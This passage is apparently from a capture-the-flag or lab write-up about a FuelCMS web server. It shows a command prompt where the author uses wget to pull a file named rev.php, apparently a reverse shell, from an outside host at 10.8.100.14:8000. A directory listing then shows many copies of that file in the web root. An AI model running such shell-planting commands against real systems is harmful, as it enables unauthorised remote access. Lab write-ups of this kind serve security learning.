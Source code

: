 We cannot write to document_root; let's try to `/var/www/html`


```bash
Enter Command $wget http://10.8.100.14:8000/rev.php
system

Enter Command $ls
systemREADME.md
assets
composer.json
contributing.md
fuel
index.php
lol
rev.php
rev.php.1
rev.php.10
rev.php.11
rev.php.12
rev.php.2
rev.php.3
rev.php.4
rev.php.5
rev.php.6
rev.php.7
rev.php.8
rev.php.9
robots.txt


```


![](Pasted%20image%2020230724205623.png)
